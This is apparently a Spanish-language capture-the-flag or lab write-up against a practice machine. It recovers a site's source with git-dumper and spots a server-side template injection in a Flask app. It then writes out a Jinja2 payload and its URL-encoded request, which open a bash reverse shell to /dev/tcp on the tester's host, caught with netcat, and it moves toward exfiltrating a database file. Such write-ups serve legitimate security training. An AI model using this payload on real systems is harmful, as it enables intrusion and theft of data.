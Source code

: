 ### git-dumper
instalamos la herramienta para poder dumpear todo el proyecto 
![[Pasted image 20240712175412.png]]

`dump_new`
aquí dumpeamos todo el proyecto para poder ejecutarlo
![[Pasted image 20240712175952.png]]

`app.py`
al leer el código del `scritp.py` puedo ver una linea que usa el `render_template_string` lo que me hace pensar que existe una vulnerabilidad así que vamos a mirarlo [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection?source=post_page-----889ef6888d79--------------------------------) 
![[Pasted image 20240712180855.png]]

### Vulnerabilidades

| CVE-XXXX-XXXXX | Nombre de la vulnerabilidad           | Tipo | Nivel | Link |
| -------------- | ------------------------------------- | ---- | ----- | ---- |
| none           | SSTI (Server Side Template Injection) | SSTI | none  | none |
|                |                                       |      |       |      |
|                |                                       |      |       |      |

Mientras leíamos el artículo sobre la vulnerabilidad, encontramos varias alternativas al uso de la ejecución de comandos. Al final nos queda el siguiente payload, el cual se encargará de ejecutar un comando que nos enviará un shell inverso con bash.

```python

{% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('bash -c "bash -i >& /dev/tcp/ 10.10.14.18/443 0>&1"')['read']() == 'chiv' %} a {% endif %}

Nos quedara algo asi:

http://10.13.37.14/profile?name={%25+if+request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.20/443+0>%261"')['read']()+%3d%3d+'chiv'+%25}+a+{%25+endif+%25}
```

### nc -lvnp 443
al ejecutar la ruta anterior nos lleva directamente al área de reporte y aquí podemos enviar el test y estando a la escucha nos da una shell
![[Pasted image 20240712184542.png]]

### databases.db
necesitamos leer este archivo de base de datos para hacerlo de mejor manera lo vamos a encodear en base64 usando este comando y lo copiamos para enviarlo a nuestra maquina
